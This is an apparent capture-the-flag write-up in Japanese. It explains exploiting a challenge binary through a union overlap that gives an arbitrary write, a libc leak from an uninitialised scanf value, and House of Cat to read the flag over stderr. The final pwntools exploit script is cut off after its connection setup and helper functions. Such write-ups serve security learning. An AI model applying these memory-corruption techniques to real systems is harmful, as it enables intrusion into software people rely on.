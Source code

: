 状況を整理しよう。

- プログラムは開始から１分後に`handler`を呼び出すが、あらかじめ TCP のバッファを埋めておくことにより、`puts`で実行と止めることができる。
- その直前の`close`によって、pthread 内の`read`が失敗し、あらかじめ`alloced`に`"ALLOCED"`を書き込んで置けば、`result`と`hash`は union で重なっているため、`hash`の値へ書き込みが行われる。
- `hash`はユーザが自由に設定できる値であるため、これにより`AAW`が実現する。

それ以外にも、`scanf`を失敗させることで`hash`に未初期化の値をいれることが可能であり、ここにはちょうど libc の値が載っているため、アドレスのリークが可能。これを使って`stderr`等に任意書き込みを行い、House of Cat でフラグを読み出す。その際、出力を stdout に向けるとバッファが詰まっていてフラグが送信されないため、stderr に向ける必要がある（実際の競技ではここで詰まっていたため、些細だが非常に重要なことである）。

最終的な exploit を以下に示す。

```py
from typing import List, Any, Dict
import time
import socket
from pwn import *
from libpwncof import PayloadBuffer, LabelRef, create_ucontext

"""
def c_sendlineafter(
    self, delim: bytes, data: bytes, wait=True, *args: Any, **kwargs: Any
) -> None:
    # conditional sendlineafter
    if wait:
        self.sendlineafter(delim, data)
    else:
        self.sendline(data)
"""

context.terminal = ["tmux", "splitw", "-h"]
# context.log_level = "debug"
context.log_level = "info"

path = "./chal_patched"
elf = ELF(path)
context.binary = elf

libc = ELF("./libs/libc.so.6")

# io: tube = process(path)
# io: tube = remote("127.0.0.1", 33337, buffer_fill_size=1024)
io: tube = remote("34.85.42.235", 33337, buffer_fill_size=1024)

io.sock.setsockopt(socket.SOL_SOCKET, socket.SO_RCVBUF, 4096)


def new_mine(
    idx: int, hlen: int, hash: int | None, prefix_len: int, prefix: bytes, wait=True
):
    io.c_sendlineafter(b"command: ", b"1", wait)
    io.c_sendlineafter(b"Miner idx: ", str(idx).encode(), wait)
    io.c_sendlineafter(b"hash: ", str(hlen).encode(), wait)

    if hash is None:
        io.c_sendlineafter(b"Hash: ", b"+", wait)
    else:
        io.c_sendlineafter(b"Hash: ", str(hash).encode(), wait)

    io.c_sendlineafter(b"Length of prefix: ", str(prefix_len).encode(), wait)
    io.c_sendlineafter(b"Prefix: ", prefix, wait)


def cmd(v, wait=True):
    io.c_sendlineafter(b"command: ", str(v).encode(), wait)
```
